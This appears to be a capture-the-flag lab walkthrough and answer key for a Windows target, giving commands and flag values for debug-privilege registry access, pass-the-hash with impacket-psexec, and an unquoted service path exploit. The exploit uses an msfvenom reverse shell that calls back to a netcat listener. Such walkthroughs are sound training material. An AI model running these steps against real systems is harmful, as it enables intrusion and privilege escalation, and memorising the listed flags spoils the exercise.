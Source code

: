 ### FLAG 004: Debug Privilege Exploitation (40 points)
**Location**: Registry key accessible with debug privileges
```bash
# Login as debugger user
evil-winrm -i 192.168.1.22 -u debugger -p Debug2024!

# Query the special registry key
*Evil-WinRM* PS C:\Users\debugger\Documents> reg query HKLM\SOFTWARE\DebugFlags /v Flag
# Output: Flag    REG_SZ    FLAG{SQUIRTLE32403089}
```

### FLAG 005: Pass-the-Hash Success (50 points)
**Location**: File accessible only after PTH attack
```bash
# Use the NTLM hash extracted from Mimikatz (209c6174da490caeb422f3fa5a7ae634)
# From Kali:
impacket-psexec -hashes :209c6174da490caeb422f3fa5a7ae634 admin@192.168.1.22

# In the SYSTEM shell:
C:\Windows\system32> type C:\Windows\System32\config\systemprofile\pth_success.txt
# Output: FLAG{MEWTWO42298929}
C:\Windows\system32> exit
```

---

## Service Vulnerability Exploitation

### FLAG 013: Unquoted Service Path #1 (25 points)
**Location**: Exploiting VulnScanner service
```bash
# First, create exploit on Kali:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.7 LPORT=4444 -f exe > Vulnerable.exe

# Start listener on Kali:
nc -lvnp 4444

# In Evil-WinRM session (new terminal):
evil-winrm -i 192.168.1.22 -u admin -p admin

# Upload exploit
*Evil-WinRM* PS C:\> upload Vulnerable.exe "C:\Program Files\Vulnerable.exe"

# Restart the vulnerable service
*Evil-WinRM* PS C:\> Restart-Service VulnScanner

# In your netcat listener, you'll get SYSTEM shell:
C:\Windows\system32> whoami
# Output: nt authority\system

C:\Windows\system32> type C:\flag_unquoted1.txt
# Output: FLAG{EEVEE05582770}
```
